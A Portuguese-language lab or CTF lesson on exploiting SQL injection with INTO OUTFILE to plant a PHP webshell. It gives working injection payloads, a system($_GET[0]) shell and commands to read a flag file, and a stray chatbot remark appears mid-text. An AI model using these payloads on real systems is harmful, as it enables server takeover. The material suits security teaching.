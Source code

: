 ## SQL Injection com WebShell

**SQL Injection (WebShell)** é uma falha onde o atacante utiliza a injeção de comandos SQL para executar ações arbitrárias no servidor. Um dos objetivos mais perigosos dessa falha é conseguir **enviar e executar uma WebShell**, o que dá ao atacante controle remoto sobre o servidor comprometido.

Nesta aula, você vai aprender como **identificar**, **explorar** e **mitigar** essa vulnerabilidade.

---

### Entendendo a exploração

Quando encontramos uma falha de SQL Injection, podemos usá-la para **gravar um arquivo PHP malicioso** no servidor — esse arquivo será a nossa **WebShell**. A partir dele, conseguimos obter um **RCE (Remote Code Execution)**, ou seja, executar comandos remotamente no servidor.

A ideia é usar **queries SQL** para gravar conteúdo diretamente em arquivos do servidor. Se conseguirmos isso, podemos gravar um código PHP que permita execução de comandos via navegador.

---

### Por que isso é possível?

Porque é possível usar comandos SQL como este:

```sql
select @@version into outfile '/tmp/test.txt';
```

Esse comando grava o resultado da query em um arquivo no servidor. Se conseguimos fazer isso, podemos escrever **qualquer conteúdo** — inclusive **um script PHP**.

O problema é que, por padrão, **usuários do banco não deveriam ter permissão para criar ou editar arquivos no sistema**. Mas muitas vezes o **administrador da infraestrutura comete erros de configuração**, como deixar o serviço do banco de dados rodando com um usuário que tem permissões de escrita em diretórios do Apache, como `/var/www/html`.
### Por que precisamos criar novos arquivos `.php`?

Uma limitação importante dessa técnica é que **não conseguimos sobrescrever arquivos já existentes** com `INTO OUTFILE`. Ou seja, se o arquivo `opa.php` já existir no diretório, o banco de dados **não vai substituí-lo** — ele simplesmente retorna erro ou ignora a escrita.

Por isso, cada vez que quisermos testar um novo código PHP, **precisamos escolher um nome diferente**, como `opa2.php`, `opa3.php`, e assim por diante.

Esse detalhe é fundamental em labs ou CTFs, pois se você tentar sobrescrever um arquivo existente, **nada vai acontecer e você pode perder tempo achando que o ataque falhou**. O correto é **gerar sempre um arquivo novo com nome diferente** para cada tentativa.

---

Se quiser, posso organizar **seção por seção com todos esses pontos críticos destacados**, ou ainda gerar um material PDF bem formatado com _destaques para essas limitações técnicas_. Deseja isso em um material de apoio?
---

### Verificando número de colunas com `ORDER BY`

Primeiro testamos quantas colunas a query original espera:

```sql
' ORDER BY 1;#
```

Ao testar diferentes números (`ORDER BY 2`, `3`, `4`...), descobrimos que a aplicação trabalha com 4 colunas.

---

### Gravando arquivos com `UNION` e `INTO OUTFILE`

Com isso, podemos usar a técnica `UNION SELECT` para injetar dados e usar o `INTO OUTFILE` para escrever arquivos:

```sql
'' union select 1,2,3,4 into outfile '/var/www/html/opa.php' -- -
```

Esse comando grava um arquivo vazio com conteúdo nas quatro colunas. Não recebemos resposta visível, então testamos acessando a URL:

```
http://10.10.0.7/opa.php
```

---

### Inserindo código PHP

Como não conseguimos sobrescrever arquivos já existentes, precisamos mudar o nome para criar um novo:

```sql
' union select 1,2,3,"<?php system('id'); ?>" into outfile '/var/www/html/opa2.php' -- -
```

Depois acessamos:

```
http://10.10.0.7/opa2.php
```

Se tudo funcionar, o navegador vai mostrar o resultado do comando `id`.

---

### WebShell interativa via GET

Para tornar isso mais flexível, podemos fazer com que a shell leia comandos via `$_GET`:

```sql
' union select 1,2,3,"<?php system($_GET[0]); ?>" into outfile '/var/www/html/opa3.php' -- -
```

Chamamos assim:

```
http://10.10.0.7/opa3.php?0=id
```

E podemos executar comandos, como por exemplo:

```
http://10.10.0.7/opa3.php?0=ls -la /
```

Se encontrarmos o arquivo `flag.txt`, basta usar:

```
http://10.10.0.7/opa3.php?0=cat /flag.txt
```

---

### Observações importantes

- A exploração **só funciona se o usuário do banco tiver permissão para gravar arquivos** — o que é uma falha de configuração.
    
- O PHP precisa estar ativado no Apache para que o código seja executado.
    
- O atacante **não consegue sobrescrever arquivos**, apenas criar novos.
    
- Essa técnica é útil em **ambientes de CTF e testes de laboratório**, mas em produção é uma **falha crítica de segurança**.
